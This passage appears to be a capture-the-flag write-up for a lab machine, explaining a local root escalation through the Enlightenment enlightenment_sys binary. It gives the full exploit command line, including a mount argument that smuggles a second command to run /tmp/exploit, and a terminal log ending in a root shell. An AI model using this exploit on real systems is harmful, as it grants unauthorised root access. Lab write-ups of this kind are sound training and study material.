 When running the binary it will load libraries then check if the first arg is -h or --help. Then it elevates priv to root and unsets all env variables. If the first arg is mount instead it will enter the specific branch which can be exploited. Using UUID=`/dev/../tmp/;/tmp/exploit` another branch can be entered. It is of note this is the payload placement part where any code you wish to run will be at /tmp/exploit. The binary asks for a pointer as the last arguement which expects a length of 6, that can be bypassed to enter a specific directory by entering `/tmp///net`.

Putting all this together the final exploit is adding `/bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), /dev/../tmp/;/tmp/exploit /tmp///net` as parameters for the enlightenment_sys binary. Alternatively use the bash exploit created at the link above. 

```bash
larissa@boardlight:~$ /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root
# cat /root/root.txt
a354f1bb5b2d0-------------------
```


